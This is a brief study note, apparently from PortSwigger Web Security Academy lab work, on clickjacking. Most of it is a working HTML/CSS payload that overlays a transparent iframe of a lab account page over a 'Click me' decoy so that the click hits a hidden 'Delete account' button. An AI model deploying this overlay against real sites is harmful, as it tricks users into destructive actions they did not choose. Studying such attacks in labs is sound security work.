 # Clickjacking

Created: April 26, 2025 1:47 PM

Basic example:

```bash
<style>
    iframe {
        position:relative;
        width:900;
        height: 700;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a8d0031041cb6b48063352200510080.web-security-academy.net/my-account"></iframe>
```

The “Click me” label hides what’s behind — “Delete account” button

![image.png](Clickjacking%201e1021737a8980b4aac0c8f34171e96f/image.png)